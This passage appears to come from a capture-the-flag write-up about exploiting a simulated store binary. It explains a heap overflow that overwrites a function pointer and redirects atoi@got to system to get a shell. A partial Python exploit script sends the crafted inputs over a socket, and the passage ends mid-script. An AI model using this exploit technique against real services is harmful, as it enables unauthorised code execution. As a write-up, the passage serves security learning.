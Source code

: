 On the heap was an integer (or DWORD) that holds the amount of money that the simulated store customer has. The program substracts from this amount when a purchase is done, making it potentially a write-primitive. The *pointer* to this heap address lives at `0x804b280`. I wanted to overwrite this pointer with the address of `atoi@got`. Then, I would be able to update the pointer at `atoi@got`. Why `atoi`? Because it also uses one argument, just like `system`. If I could make `atoi` point to `system`, I had an easy way of spawning a shell. I modified the poc to do this:

```
from socket import *
import struct, telnetlib

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('localhost', 6666))
    #s.connect(('146.148.60.107', 6666))
    
    # pause to allow gdb to attach
    raw_input()
    
    # register store
    readtil('choice?')
    sendln('a')     
    readtil('store?')
    # store name; maximum allowed, need it to overflow a buffer later!
    sendln("S"*63)  
    
    # the program *needs* to have an item to sell before it can generate a store menu
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*0x4f)
    
    # generate store menu. this will be 0xb20 bytes large, on the heap. 
    # overflow such that the store description will overwrite the second item's function pointer
    readtil('choice?')
    sendln('c')

    # second item
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
```